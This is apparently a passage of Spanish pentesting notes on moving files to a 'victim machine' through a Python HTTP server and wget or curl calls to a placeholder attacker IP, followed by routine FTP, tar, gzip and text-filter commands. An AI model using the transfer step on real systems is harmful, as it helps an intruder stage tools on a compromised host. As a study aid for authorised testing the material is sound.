 <a name="comp"></a>
### Compartir ficheros entre maquinas
Podemos compartir ficheros con la máquina víctima montando un servidor http en python. Para ello nos posicionamos en la ruta donde tengamos el fichero y ejecutamos
```bash
python3 -m http.server 5000

El puerto 80 en ocasiones requiere permisos de root
```

desde la máquina víctima hacemos:
```bash
wget <http://ip_atacante/recurso>
```

otra opción sería
```bash
curl <http://ip_atacante/recurso> -o recurso
```

### FTP
<a name="ftp"></a>
```bash
ftp <ip>
ftp user@ip
get <fichero>
mget *
put <fichero>

```

### Compresion/Descompresion de ficheros
<a name="tar"></a>
#### TAR
```bash
tar -xf fichero.tar "DESCOMPRIMIR"
tar -xzf archivo.tar.gz "DESCOMPRIMIR tar.gz"
tar -cf fichero.tar fichero_a_comprimir.txt "COMPRIMIR"
tar -cf fichero.tar fichero_a_comprimir1.txt fichero_a_comprimir2.txt "COMPRIMIR VARIOS"
```

#### GZIP
```bash
gzip -c documento.txt > comprimido.gz "COMPRIMIR"
gzip -d documento.gz "DESCOMPRIMIR"
gunzip documento.gz "DESCOMPRIMIR"
```

### Regex (Expresiones regulares)
```python
#Sustitución de caracteres
tr '\' ' '

#Eliminacion caracteres
tr -d ' ' 

#Seleccion de culumnas
EJ: imprimir columna 2
awk '{print $2}'

#Mostrar lineas distintas de
grep -v <palabra>

#No distinguir mayusculas de minusculas
grep -i
```